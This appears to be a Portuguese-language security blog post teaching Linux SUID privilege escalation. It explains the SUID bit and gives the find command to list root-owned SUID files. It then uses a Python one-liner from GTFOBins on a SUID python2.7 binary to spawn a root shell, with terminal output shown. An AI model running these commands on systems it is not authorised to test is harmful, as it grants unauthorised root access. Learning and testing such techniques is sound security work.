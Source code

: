 ```yaml
---
layout: post
title:  "SUID Privilege Escalation"
date:   2020-09-07 17:30:00 -0300
categories: hacking
author: "ReddyyZ"
lang: pt-BR
tags: [privilege escalation, linux]
---
```


Privilege escalation é um tipo de vulnerabilidade na qual o atacante consegue elevar seus privilégios para root ou algum outro usuário.<br>
Nesse artigo você vai aprender sobre como encontrar e explorar um privilege escalation.

## SUID Privilege Escalation

### O que é o SUID

BIT SUID é um tipo de permissão especial na qual o arquivo pode executar outros comandos como o usuário dono do arquivo.

![BIT SUID](/assets/images/suid.jpg)

Vamos a um exemplo:

O root é dono de um arquivo que executa o comando passado por argumento, este arquivo tem o bit SUID e todos os usuários tem permissão de executa-lo.

Se um usuário comum usar esse script para executar um comando, este comando será executado como root por causa do bit SUID.


### Encontrando arquivos com o bit SUID

Agora que já entendemos como funciona o bit SUID, vamos encontrar os arquivos com o bit SUID e que o dono seja o root.

Para isso usaremos uma ferramenta que já vem com o linux chamada find, vamos ao comando.
```sh
find / -user root -perm /4000 2>/dev/null
```

Explicando o comando:

Especifica o dono do arquivo `-user root`<br>
Procura por arquivos com o bit SUID `-perm /4000`<br>
Esconde os erros `2>/dev/null`

Resultado:

```sh
reddyyz@fsociety~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/chromium/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/libexec/spice-client-glib-usb-acl-helper
/usr/share/code/chrome-sandbox
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/mount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/python2.7
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/vncserver-x11
/usr/bin/kismet_cap_linux_wifi
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/ntfs-3g
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/Xtightvnc
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
```
Esses são todos os arquivos com permissão SUID que o dono é o root.

### Encontrando e explorando um privilege escalation

Olhando esses arquivos um que chama atenção é o `/usr/bin/python2.7`.<br>
Vamos olhar se existe algum exploit conhecido para o python no [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), site com várias formas de privilege escalation.

![GTFOBins Python](/assets/images/gtfobins-python.PNG)

E achamos uma forma de escalar nossos privilégios.<br>
Vamos executar o comando `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```sh
reddyyz@fsociety:~$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```

E conseguimos escalar nossos privilégios com sucesso!